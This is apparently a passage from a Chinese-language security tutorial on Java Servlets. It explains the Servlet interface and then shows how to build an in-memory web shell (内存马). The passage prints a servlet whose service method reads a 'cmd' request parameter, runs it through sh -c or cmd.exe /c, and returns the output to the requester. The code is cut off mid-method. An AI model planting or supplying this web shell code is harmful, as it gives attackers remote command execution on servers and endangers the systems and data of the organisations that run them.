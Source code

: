 ## 简介

Java Servlet 是运行在 Web 服务器或应用服务器上的程序，它是作为来自 Web 浏览器或其他 HTTP 客户端的请求和 HTTP 服务器上的数据库或应用程序之间的中间层。Servlet 的主要功能在于交互式地浏览和修改数据，生成动态 Web 内容。

Servlet 接口定义了下面五个方法：

```java
public interface Servlet {
    void init(ServletConfig config) throws ServletException;
    
    ServletConfig getServletConfig();
    
    void service(ServletRequest req, ServletResponse res）throws ServletException, IOException;
    
    String getServletInfo();
    
    void destroy();
}
```

其中最重要是的 service 方法，具体业务类在这个方法里实现处理逻辑。这个方法有两个参数：ServletRequest 和 ServletResponse。ServletRequest 用来封装请求信息，ServletResponse 用来封装响应信息，因此本质上这两个类是对通信协议的封装。

Servlet 容器在加载 Servlet 类的时候会调用 init 方法，在卸载的时候会调用 destroy 方法。我们可能会在 init 方法里初始化一些资源，并在 destroy 方法里释放这些资源。

ServletConfig 的作用是封装 Servlet 的初始化参数。可以在web.xml给 Servlet 配置参数，并在程序里通过 getServletConfig 方法拿到这些参数。  

显然对于内存马的实现来讲，我们需要将恶意代码写在service方法中：

```java
import javax.servlet.*;
import javax.servlet.annotation.WebServlet;
import java.io.IOException;
import java.io.InputStream;
import java.io.PrintWriter;
import java.util.Scanner;


public class MyServlet implements Servlet {
    @Override
    public void init(ServletConfig config) throws ServletException {

    }

    @Override
    public ServletConfig getServletConfig() {
        return null;
    }

    @Override
    public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
        String cmd = servletRequest.getParameter("cmd");
        boolean isLinux = true;
        String osTyp = System.getProperty("os.name");
        if (osTyp != null && osTyp.toLowerCase().contains("win")) {
            isLinux = false;
        }
        String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
        InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
        Scanner s = new Scanner(in).useDelimiter("\\a");
        String output = s.hasNext() ? s.next() : "";
        PrintWriter out = servletResponse.getWriter();
        out.println(output);
```